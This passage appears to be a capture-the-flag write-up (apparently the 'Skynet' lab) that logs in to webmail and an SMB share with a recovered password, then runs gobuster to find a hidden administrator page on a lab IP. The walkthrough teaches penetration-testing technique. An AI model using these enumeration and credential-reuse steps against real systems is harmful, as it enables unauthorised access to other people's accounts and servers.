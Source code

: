 Login to email with username: milesdyson
Password:cyborg007haloterminator

IMAGE of webmail

Look at emails: IMAGE of emails

IMAGE of main email

Log in to SMB with password:

smbclient //10.10.213.240/milesdyson -U milesdyson

smb: \> ls
  .                                   D        0  Tue Sep 17 10:05:47 2019
  ..                                  D        0  Wed Sep 18 04:51:03 2019
  Improving Deep Neural Networks.pdf      N  5743095  Tue Sep 17 10:05:14 2019
  Natural Language Processing-Building Sequence Models.pdf      N 12927230  Tue Sep 17 10:05:14 2019
  Convolutional Neural Networks-CNN.pdf      N 19655446  Tue Sep 17 10:05:14 2019
  notes                               D        0  Tue Sep 17 10:18:40 2019
  Neural Networks and Deep Learning.pdf      N  4304586  Tue Sep 17 10:05:14 2019
  Structuring your Machine Learning Project.pdf      N  3531427  Tue Sep 17 10:05:14 2019

		9204224 blocks of size 1024. 5806728 blocks available
smb: \> 


list notes

smb: \> cd notes\
smb: \notes\> ls
  .                                   D        0  Tue Sep 17 10:18:40 2019
  ..                                  D        0  Tue Sep 17 10:05:47 2019
  3.01 Search.md                      N    65601  Tue Sep 17 10:01:29 2019
  4.01 Agent-Based Models.md          N     5683  Tue Sep 17 10:01:29 2019
  2.08 In Practice.md                 N     7949  Tue Sep 17 10:01:29 2019
  0.00 Cover.md                       N     3114  Tue Sep 17 10:01:29 2019
  1.02 Linear Algebra.md              N    70314  Tue Sep 17 10:01:29 2019
  important.txt                       N      117  Tue Sep 17 10:18:39 2019
  6.01 pandas.md                      N     9221  Tue Sep 17 10:01:29 2019
...
1.00 Foundations.md                 N       22  Tue Sep 17 10:01:29 2019

get file importatnt.txt >> we have the hidden directory/page

Run gobuster again:
gobuster dir -u http://10.10.213.240/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirb/big.txt

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.213.240/45kra24zxs28v3yd/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/06/21 02:39:19 Starting gobuster
===============================================================
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/administrator (Status: 301)
===============================================================
2023/06/21 02:39:20 Finished
===============================================================
